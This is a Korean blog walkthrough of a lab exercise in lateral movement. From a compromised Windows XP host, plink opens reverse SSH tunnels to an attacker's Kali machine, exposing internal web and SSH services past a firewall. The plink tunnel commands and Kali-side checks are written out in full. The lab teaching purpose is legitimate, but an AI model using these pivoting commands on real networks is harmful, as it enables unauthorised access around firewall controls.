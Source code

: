 ```yaml
---
title: 패킷 릴레이와 측면 이동
author:
  name: Cotes Chung
  link: https://github.com/cotes2020
date: 2022-05-25 20:00:00 +0800
categories: [Blogging, Network]
tags: [getting started]
pin: false
---
```


## Step1. 환경 구성

---

### 환경 구성

환경 구성은 다음과 같다.

ip가 56번(내부) 대역에서 57번(외부) 대역으로 서비스에 접근할 수 있지만, 57번(외부) 대역에서 56번(내부) 대역으로는 서비스 접속이 안되게 설정한다.

![1](https://user-images.githubusercontent.com/59737252/170284643-3a53495b-bfc3-4dc4-8f44-a36d04208285.png){: width="90%"}

<br>

### 방화벽 구성

방화벽은 다음과 같이 설정한다.

외부에서 내부로 서비스 거부하도록 설정한 것이다.

![2](https://user-images.githubusercontent.com/59737252/170301426-f3f817f4-70f7-4401-9747-f7870859072e.png)

<br>

## Step2. 세션 획득

---

msfconsole을 이용하여 윈도우 xp의 세션을 획득한 후 진행한다.

세션을 얻는 방법은 저번에 사용했던 방법을 참고하면 된다.

<br>

## Step3. 측면 이동

---

### plink 준비

해당 공격을 하기전에 앞서 plink를 윈도우로 옮겨놓는다.

윈도우의 쉘을 얻은 후 plink를 upload 한다.

plink는 윈도우에서 ssh를 사용할 수 있는 도구이다.

<br>

### plink 설명

윈도우의 쉘을 얻은 상태에서 아래의 명령어를 입력한다.

```console
C:\WINDOWS\Temp> plink -R 4321:192.168.56.80:80 -l root -pw lab 192.168.57.10
```

명령어를 해석하면 다음과 같다.

plink <span style="background-color: #fff5b1">-R</span> 4321:192.168.56.80:80 -l root -pw lab 192.168.57.10
<br>
R옵션 : 원격시스템에 포트를 연다.

plink -R <span style="background-color: #fff5b1">4321:</span>192.168.56.80:80 -l root -pw lab 192.168.57.10
<br>
4321포트 : 원격시스템에 4321로 포트를 연다.

plink -R 4321:<span style="background-color: #fff5b1">192.168.56.80:80</span> -l root -pw lab 192.168.57.10
<br>
192.168.56.80:80 : 해당 포트(4321)로 접속하게 되면 192.168.56.80의 80번 포트로 포트포워딩 한다.

plink -R 4321:192.168.56.80:80 -l root -pw lab <span style="background-color: #fff5b1">192.168.57.10</span>
<br>
192.168.57.10 : ssh로 접속할 서버 주소이다.

<br>

그러면 결과적으로 다음과 같은 구도를 나타낸다.

![3](https://user-images.githubusercontent.com/59737252/170305911-2ae28d03-e41a-4918-9383-af94c96a1c81.png){: width="70%"}

<br>

### plink 사용 (80번 포트)

plink를 사용하여 측면이동을 시도한다.

```console
C:\WINDOWS\Temp> plink -R 4321:192.168.56.80:80 -l root -pw lab 192.168.57.10
```

![4](https://user-images.githubusercontent.com/59737252/170306576-f8244884-6e23-4efd-a896-65032580c1fe.png)

그러면 root@kali 로 나오게 된것을 볼 수 있는데

이것은 윈도우에서 칼리로 ssh를 이용해 접속하였기 때문에 그렇다.

<br>

### 포트 확인

```console
kali# netstat -atunp | grep 4321
```

netstat를 이용하여 4321번 포트가 열려있는지 확인한다.

![5](https://user-images.githubusercontent.com/59737252/170307424-ab86eec3-01fa-4f27-949a-75704c0acfac.png)

<br>

### 포트포워딩 확인

자기 자신(localhost)으로 접속하여 포트포워딩이 되는지 확인한다.

192.168.56.80으로 시도하면 방화벽으로 인해 접속이 안되지만

![7](https://user-images.githubusercontent.com/59737252/170308511-b67a2bb6-f3f4-4f6b-a45e-fca68791d35c.png){:width="95%"}

<br>

localhost:4321으로 접속하면 포트포워딩으로 인해 접속이 되는것을 볼 수 있다.

![6](https://user-images.githubusercontent.com/59737252/170307908-3e6e7eed-36a8-4152-a753-aaa5cc6fa9b2.png){:width="95%"}

tail 명령을 사용하여 로그를 살펴볼수도 있다.

```console
centos# tail -f /var/log/httpd/access_log
```

<br>

### plink 사용 (22번 포트)

같은 방법으로 22번인 ssh를 이용하여 사용해본다.

물론 centos에 ssh 서비스가 실행되어 있어야 한다.

```console
C:\WINDOWS\Temp> plink -R 2222:192.168.56.80:22 -l root -pw lab 192.168.57.10
```

```console
kali# ssh root@localhost -p 2222
```

![8](https://user-images.githubusercontent.com/59737252/170310764-6be2e501-cf2a-43fb-83b5-3d5d3ebdafcc.png)
